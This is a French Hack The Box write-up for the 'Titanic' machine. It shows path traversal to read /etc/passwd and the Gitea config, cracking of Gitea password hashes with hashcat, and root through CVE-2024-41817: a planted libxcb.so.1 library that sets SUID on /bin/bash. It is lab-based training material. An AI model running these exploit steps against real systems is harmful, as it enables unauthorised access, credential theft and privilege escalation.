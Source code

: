 ```yaml
---
title: Titanic - Linux Easy - HTB Writeup 
description:
slug: titanic-htb-writeup-linux-easy
date: 2025-06-21 00:00:00+0000
image: Titanic.png
categories:
    - Hack
    - Linux
    - Easy
tags:
    - LFI
    - Gitea
    - ImageMagick
# weight: 1       # You can add weight to some posts to override the default sorting (date descending)
---
```

## Résumé
User: Path traversal\
Root: Execution de code arbitraire via CVE-2024-41817(ImageMagick).

## Enumeration
A l'aide d'un scan nmap, nous pouvons identifier un service web sur le port 80 et SSH sur le port 22.

{{< highlight go "hl_lines=1 3 7" >}}
nmap -Pn -p 80,22 10.129.175.139 -v -A
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://titanic.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
{{< /highlight >}}

## Utilisateur
### Path traversal

En explorant `titanic.htb`, on remarque que si l'on soumet le formulaire de booking, un fichier contenant nos éléments de réservation au format JSON est téléchargé.\
![](Titanic-web.png)
{{< highlight go "hl_lines=1" >}}
$ cat 5a41afb2-469c-4d75-8faf-4c1b70d398be.json | jq .
{
  "name": "test",
  "email": "test@test.com",
  "phone": "test-01",
  "date": "2025-06-18",
  "cabin": "Deluxe"
}
{{< /highlight >}}
Côté burp, le paramètre `ticket` via `/download` permet de spécifier le fichier à télécharger.\
![](Burp-ticket.png)\
L'absence de controle ou de validation sur ce paramètre nous permet de lire des fichiers sur la machine.\
Ce path traversal, nous permet de récupérer les informations suivantes:\
`/etc/passwd` nous indique l'existence de l'utilisateur `developer`.\
`/etc/hosts` nous permet de récupérer un nouveau sous-domaine, `dev`.
![](Burp-LFI1.png)\
![](Burp-LFI2.png)

### Gitea
Pour l'instant, on ne peut pas aller plus loin, explorons `dev.titanic.htb`.\
On trouve une instance de [Gitea](https://about.gitea.com/), un outil de versionning auto-herbergé utilisant git.\
![](Gitea-1.png)\
En explorant les repo accessibles publiquement, on trouve `docker-config`et `flask-app`.\
![](Gitea-2.png)\
Dans le repo `docker-config`, on trouve des identifiants `MySQL` dans `/mysql/docker-compose.yml`.\
Le scan nmap n'a pas permis d'identifier un accès MySQL, on garde ces identifiants de côté.\
![](Gitea-3.png)\
Toujours dans ce même repository, on trouve dans `/gitea/docker-compose.yml`, le chemin vers un volume.\
![](Gitea-volume.png)\
En utilisant ce chemin, le path traversal précédemment trouvé et la documentation de Gitea, on peut récupérer le fichier de configuration de Gitea.\
Après plusieurs tentatives, il se situe dans `/home/developer/gitea/data/gitea/conf/app.ini`.\
Dans ce fichier de conf, on trouve le chemin de la `BDD` Gitea.\
![](Gitea-4.png)\
![](Gitea-5.png)\
On passe par le site pour la récupérer.\
En explorant cette base de données avec `sqlite3`, on peut récupérer les hash de `developer` et `administrator`.\
{{< highlight go "hl_lines=1" >}}
$ sqlite3 gitea.db                                                                                                               
...
sqlite> select * from user;
1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US||1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0
2|developer|developer||developer@titanic.htb|0|enabled|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0|0|0||0|||0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34|en-US||1722595646|1722603397|1722603397|0|-1|1|0|0|0|0|1|0|e2d95b7e207e432f62f3508be406c11b|developer@titanic.htb|0|0|0|0|2|0|0|0|0||gitea-auto|0
{{< /highlight >}}
Les hashs sont au format PBKDF2 et peuvent être convertis à l’aide de [gitea2hashcat.py](https://github.com/hashcat/hashcat/pull/4154/files#diff-ccd519555457fa8e0c74b0dc7bd66727216dd446c7bcff8cd5196fe919e2b000) pour être compatibles avec Hashcat et ensuite casser le mot de passe du compte `developer`.
{{< highlight go "hl_lines=1 6" >}}
$ sqlite3 gitea.db 'select salt,passwd from user;' | ./gitea2hashcat.py
[+] Run the output hashes through hashcat mode 10900 (PBKDF2-HMAC-SHA256)
sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=

$ hashcat -a 0 -m 10900 hash /usr/share/wordlists/rockyou.txt
...
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
{{< /highlight >}}

On l'utilise pour se connecter via SSH à la machine.
{{< highlight go "hl_lines=1 3 5" >}}
$ ssh developer@titanic.htb
...
developer@titanic:~$ ls
gitea  mysql  user.txt
developer@titanic:~$ cat user.txt
e85d89a008cff72094f40882eb2f7d9b
{{< /highlight >}}

## Root
### CVE-2024-41817(ImageMagick)
Une fois connecté en SSH, on remarque le script `identify_images.sh` dans le dossier `/opt/scripts/`.
{{< highlight go "hl_lines=1 24" >}}
developer@titanic:/opt$ tree .
.
├── app
│   ├── app.py
│   ├── static
│   │   ├── assets
│   │   │   └── images
│   │   │       ├── entertainment.jpg
│   │   │       ├── exquisite-dining.jpg
│   │   │       ├── favicon.ico
│   │   │       ├── home.jpg
│   │   │       ├── luxury-cabins.jpg
│   │   │       └── metadata.log
│   │   └── styles.css
│   ├── templates
│   │   └── index.html
│   └── tickets
├── containerd  [error opening dir]
└── scripts
    └── identify_images.sh

8 directories, 10 files

developer@titanic:/opt$ cat scripts/identify_images.sh 
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
{{< /highlight >}}
Cette commande va identifier le format et caractéristiques des fichiers finissant par `.jpg` dans `/opt/app/static/assets/images/` et les stocker dans `/opt/app/static/assets/metadata.log`.\
On remarque que le timestamp de metadata.log est actualisé chaque minute, le script appartient à root donc susceptible d'être lancé par une tâche cron.\
Les commandes `truncate`, `find`, `xargs` ne sont pas exploitables ici. `Imagemagick` étant un outil utilisé dans des CTF dans ses versions vulnérables, on cherche des CVE associées à sa version, la `7.1.1-35`.
{{< highlight go "hl_lines=1" >}}
developer@titanic:~$ magick --version
Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
...
{{< /highlight >}}

On trouve [cet advisory sur Github](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8) concernant la `CVE-2024-41817` permettant une execution de code arbitraire sur les versions <= à 7.1.1-35.\
Pour obtenir de l'éxécution de code en tant que root, on va adapter le POC mentionné en modifiant id pour set le SUID sur /bin/bash.
{{< highlight go "hl_lines=1 11 12 13 15 16" >}}
developer@titanic:/tmp$ cat libxcb 
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("chmod +s /bin/bash");
    exit(0);
}

developer@titanic:/tmp$ gcc -x c -shared libxcb.c -fPIC -o ./libxcb.so.1
developer@titanic:/tmp$ mv libxcb.so.1 /opt/app/static/assets/images/
developer@titanic:/tmp$ ls -ld /bin/bash
-rwsr-sr-x 1 root root 1396520 Mar 14  2024 /bin/bash
developer@titanic:/tmp$ bash -p
bash-5.1# id
uid=1000(developer) gid=1000(developer) euid=0(root) egid=0(root) groups=0(root),1000(developer)
bash-5.1# ls /root
cleanup.sh  images  revert.sh  root.txt  snap
{{< /highlight >}}

## Ressources
> [gitea2hashcat.py](https://github.com/hashcat/hashcat/pull/4154/files#diff-ccd519555457fa8e0c74b0dc7bd66727216dd446c7bcff8cd5196fe919e2b000)\
> [Advisory Github for CVE-2024-41817](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)
